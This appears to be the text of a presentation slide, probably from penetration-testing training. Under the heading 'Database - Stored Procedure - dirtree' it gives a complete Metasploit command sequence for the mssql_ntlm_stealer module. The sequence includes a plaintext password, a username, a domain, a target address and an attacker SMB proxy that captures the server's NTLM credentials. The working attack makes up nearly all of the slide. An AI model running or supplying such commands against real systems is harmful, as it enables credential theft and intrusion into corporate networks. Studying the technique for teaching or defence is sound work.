

Database - Stored Procedure - dirtree
use auxiliary/admin/mssql/mssql_ntlm_stealer
set PASSWORD admin#123
set RHOSTS 192.168.3.22
set SMBPROXY 10.1.1.60
set USERNAME tboss
set USE_WINDOWS_AUTHENT true
set DOMAIN corp1
exploit